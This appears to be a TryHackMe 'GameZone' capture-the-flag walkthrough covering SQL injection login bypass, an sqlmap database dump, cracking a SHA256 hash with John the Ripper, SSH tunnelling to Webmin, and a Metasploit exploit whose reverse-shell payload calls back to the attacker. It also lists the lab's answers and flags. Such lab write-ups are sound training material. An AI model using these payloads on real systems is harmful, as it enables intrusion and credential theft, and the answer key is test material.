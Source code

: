 ## Obtain access via SQLi

SQL is a standard language for storing, editing, and retrieving data in databases. A query can look like this:

**SELECT * FROM users WHERE username = :username AND password = :password**

In our GameZone machine, when you attempt to log in, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to log in; otherwise, it will display an error message.

Let's use what we've learned above to manipulate the query and log in without any legitimate credentials.

If we set our username as "admin" and our password as **' or 1=1 -- -**, it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

**SELECT * FROM users WHERE username = 'admin' AND password = '' or 1=1 -- -**

The extra SQL we inputted as our password has changed the above query to bypass the initial query and proceed (with the admin user) if 1=1, then comment the rest of the query to prevent it from breaking.

GameZone doesn't have an admin user in the database; however, you can still log in without knowing any credentials using the inputted password data we used in the previous question.

Use **' or 1=1 -- -** as your username and leave the password blank.

When you've logged in, what page do you get redirected to? `portal.php`

## Using SQLMap

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.  

First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).  

 ![](https://i.imgur.com/ox4wJVH.png)  

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.

![](https://i.imgur.com/W5boKpk.png)

**-r** uses the intercepted request you saved earlier  
**--dbms** tells SQLMap what type of database management system it is  
**--dump** attempts to outputs the entire database

![](https://i.imgur.com/iiQ7g9t.png)

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

In the users table, what is the hashed password?
What was the username associated with the hashed password?
```
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

```

What was the other table name?
```
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                     
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                 
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```

## Cracking a password with JohnTheRipper

If you are using a low-powered laptop, you can deploy a high-spec'd Kali Linux machine on TryHackMe and control it in your browser.

Once you have JohnTheRipper installed, you can run it against your hash using the following arguments:

![JohnTheRipper Usage](https://i.imgur.com/64g6Y8F.png)

**hash.txt** - contains a list of your hashes (in your case, it's just 1 hash).  
**--wordlist** - is the wordlist you're using to find the dehashed value.  
**--format** - is the hashing algorithm used. In our case, it's hashed using SHA256.

What is the dehashed password?  
`videogamer124`

Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?  
`649ac17b1480ac13ef1e4fa579dac95c`

## Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

**-L** is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do **ssh -L 9000:imgur.com:80 [user@example.com](mailto:user@example.com)**. Going to localhost:9000 on your machine will load imgur traffic using your other server.

**-R** is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above but in reverse.

![SSH Tunnel Diagram](https://i.imgur.com/cYZsC8p.png)

I will use a tool called **ss** to investigate sockets running on a host.

If I run **ss -tulpn**, it will tell us what socket connections are running.



|**Argument**|**Description**|
|---|---|
|-t|Display TCP sockets|
|-u|Display UDP sockets|
|-l|Displays only listening sockets|
|-p|Shows the process using the socket|
|-n|Doesn't resolve service names|


```
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
udp    UNCONN     0      0         *:10000                 *:*                  
udp    UNCONN     0      0         *:68                    *:*                  
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128       *:10000                 *:*                  
tcp    LISTEN     0      128       *:22                    *:*                  
tcp    LISTEN     0      128      :::80                   :::*                  
tcp    LISTEN     0      128      :::22                   :::*                  

```         

I can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, using an SSH tunnel, we can expose the port to us (locally)!

From our local machine, run `ssh -L 10000:localhost:10000 <username>@<ip>`.

Once complete, in your browser, type "localhost:10000," and you can access the newly exposed web server.

![Webmin CMS](https://i.imgur.com/9vJZUZv.png)

What is the name of the exposed CMS?  
`Webmin`

What is the CMS version?  
Login with the credentials above.  
`1.580`

## Privilege Escalation with Metasploit

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

What is the root flag?

1. Open Metasploit.
2. Use the following commands:
`use exploit/unix/webapp/webmin_show_cgi_exec set RHOSTS localhost set USERNAME agent47 set PASSWORD videogamer124 set SSL false set PAYLOAD cmd/unix/reverse set LHOST [local ip] exploit`

`a4b945830144bdd71908d12d902adeee`

Note: Please make sure to replace `[local ip]` with your actual local IP address.
